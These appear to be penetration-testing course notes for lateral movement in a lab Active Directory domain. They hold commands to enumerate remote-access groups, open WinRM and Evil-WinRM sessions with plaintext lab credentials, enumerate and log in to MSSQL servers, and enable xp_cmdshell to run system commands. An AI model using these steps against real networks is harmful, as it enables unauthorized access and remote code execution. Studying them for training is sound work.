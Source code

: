 ### **Remote Desktop**
1. Enumerating the Remote Desktop Users Group: `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"`
2. Enumerating the Remote Management Users Group: `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"`
3. Establishing WinRM Session from Windows:
    1. `$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force`
    2. `$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)`
    3. `Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred`
4. Connecting to a Target with Evil-WinRM and Valid Credentials: `evil-winrm -i 10.129.201.234 -u forend`
### **SQL Server Admin**
1. Enumerating MSSQL Instances with PowerUpSQL: 
    1. `cd .\PowerUpSQL\`
    2. `Import-Module .\PowerUpSQL.ps1`
    3. `Get-SQLInstanceDomain`
2. Authenticate against the remote SQL server host and run custom queries or operating system commands: `Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'`
3. Authenticate from our Linux attack host using mssqlclient.py from the Impacket toolkit: `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth`
4. Viewing our Options with Access to the SQL Server: `SQL> help`
5. Choosing enable_xp_cmdshell: `SQL> enable_xp_cmdshell`
6. Enumerating our Rights on the System using xp_cmdshell: `xp_cmdshell whoami /priv`